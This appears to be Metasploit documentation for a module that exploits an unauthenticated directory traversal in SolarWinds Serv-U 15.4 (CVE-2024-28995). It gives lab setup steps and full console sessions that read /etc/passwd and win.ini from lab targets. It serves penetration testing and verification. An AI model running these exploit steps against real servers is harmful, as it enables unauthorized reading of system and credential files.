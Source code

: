 ## Vulnerable Application
This module exploits an unauthenticated file read vulnerability, due to directory traversal, affecting
SolarWinds Serv-U FTP Server 15.4, Serv-U Gateway 15.4, and Serv-U MFT Server 15.4. All versions prior to
the vendor supplied hotfix "15.4.2 Hotfix 2" (version 15.4.2.157) are affected.

## Testing
Follow the below instruction for either Linux or Windows.
* Download a vulnerable version of SolarWinds Serv-U MFT Server, for example version `15.4.2.126`.
* Install the Serv-U Server by running the installer binary and accepting the defaults for every setting.
* Log into the Serv-U Server Management Console, and create a new Serv-U Domain. Follow the instruction and
accept the default values during setup. The newly created domain will expose a HTTP and HTTPS service bound to all
interfaces. These are the `RHOST`, `RPORT`, and `SSL` options we set in the auxiliary module.

To read a file we set the `TARGETFILE` option to the absolute path of the file we want to read. For example on Linux
we can set the target file to `/etc/passwd`, or on Windows to `C:\\Windows\win.ini`.

Note: When using `msfconsole` you will need to escape a backslash (`\ `) with a double backslash (`\\`).

On Windows, by default, the install directory is `C:\ProgramData\RhinoSoft\Serv-U\ ` and the `Serv-U.exe` service runs
as the `NT AUTHORITY\NETWORK SERVICE` user.

On Linux, by default, the install directory is `/usr/local/Serv-U/` and the `Serv-U` service runs as `root`.
The file `/usr/local/Serv-U/Shares/Serv-U.FileShares` is a SQLite database containing the absolute path of all files
shared by Serv-U, and can be downloaded and used for target file discovery. This database file is not accessible on a
Windows target, as it is locked by the `Serv-U.exe` process and cannot be opened a second time.

## Verification Steps

1. Start msfconsole
2. `use auxiliary/gather/solarwinds_servu_fileread_cve_2024_28995`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set STORE_LOOT false`
5. `set TARGETFILE /etc/passwd`
6. `check`
7. `run`

## Scenarios

### A vulnerable Linux target

```
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set RHOST 192.168.86.43
RHOST => 192.168.86.43
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set RPORT 443
RPORT => 443
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set STORE_LOOT false
STORE_LOOT => false
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set TARGETFILE /etc/passwd
TARGETFILE => /etc/passwd
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > show options

Module options (auxiliary/gather/solarwinds_servu_fileread_cve_2024_28995):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   PATH_TRAVERSAL_COUNT  4                yes       The number of double dot (..) path segments needed to traverse to the root folder.
   Proxies                                no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                192.168.86.43    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                 443              yes       The target port (TCP)
   SSL                   true             no        Negotiate SSL/TLS for outgoing connections
   STORE_LOOT            false            no        Store the target file as loot
   TARGETFILE            /etc/passwd      yes       The full path of a target file to read.
   TARGETURI             /                yes       The base URI path to the web application
   VHOST                                  no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > check
[+] 192.168.86.43:443 - The target is vulnerable. SolarWinds Serv-U version 15.4.2.126 (Linux 64-bit; Version: 6.5.0-15-generic)
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > run
[*] Running module against 192.168.86.43

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. SolarWinds Serv-U version 15.4.2.126 (Linux 64-bit; Version: 6.5.0-15-generic)
[*] Reading file /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:102:105::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
syslog:x:104:111::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:115::/run/uuidd:/usr/sbin/nologin
systemd-oom:x:108:116:systemd Userspace OOM Killer,,,:/run/systemd:/usr/sbin/nologin
tcpdump:x:109:117::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
avahi:x:114:121:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:115:122:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
rtkit:x:116:123:RealtimeKit,,,:/proc:/usr/sbin/nologin
whoopsie:x:117:124::/nonexistent:/bin/false
sssd:x:118:125:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
speech-dispatcher:x:119:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
nm-openvpn:x:120:126:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
saned:x:121:128::/var/lib/saned:/usr/sbin/nologin
colord:x:122:129:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:123:130::/var/lib/geoclue:/usr/sbin/nologin
pulse:x:124:131:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin
gnome-initial-setup:x:125:65534::/run/gnome-initial-setup/:/bin/false
hplip:x:126:7:HPLIP system user,,,:/run/hplip:/bin/false
gdm:x:127:133:Gnome Display Manager:/var/lib/gdm3:/bin/false
mysql:x:128:136:MySQL Server,,,:/nonexistent:/bin/false
fwupd-refresh:x:129:137:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
xrdp:x:130:138::/run/xrdp:/usr/sbin/nologin

[*] Auxiliary module execution completed
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > 
```

### A vulnerable Windows target

```
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set RHOST 192.168.86.68
RHOST => 192.168.86.68
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set RPORT 80
RPORT => 80
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set SSL false
[!] Changing the SSL option's value may require changing RPORT!
SSL => false
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set TARGETFILE c:\\\\Windows\\win.ini
TARGETFILE => c:\\Windows\win.ini
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > show options 

Module options (auxiliary/gather/solarwinds_servu_fileread_cve_2024_28995):

   Name                  Current Setting      Required  Description
   ----                  ---------------      --------  -----------
   PATH_TRAVERSAL_COUNT  4                    yes       The number of double dot (..) path segments needed to traverse to the root folder.
   Proxies                                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                192.168.86.68        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                 80                   yes       The target port (TCP)
   SSL                   false                no        Negotiate SSL/TLS for outgoing connections
   STORE_LOOT            false                no        Store the target file as loot
   TARGETFILE            c:\\Windows\win.ini  yes       The full path of a target file to read.
   TARGETURI             /                    yes       The base URI path to the web application
   VHOST                                      no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > check
[+] 192.168.86.68:80 - The target is vulnerable. SolarWinds Serv-U version 15.4.2.126 (Windows Server 2012 64-bit; Version: 6.2.9200)
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > run
[*] Running module against 192.168.86.68

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. SolarWinds Serv-U version 15.4.2.126 (Windows Server 2012 64-bit; Version: 6.2.9200)
[*] Reading file c:\\Windows\win.ini
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1

[*] Auxiliary module execution completed
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) >
```
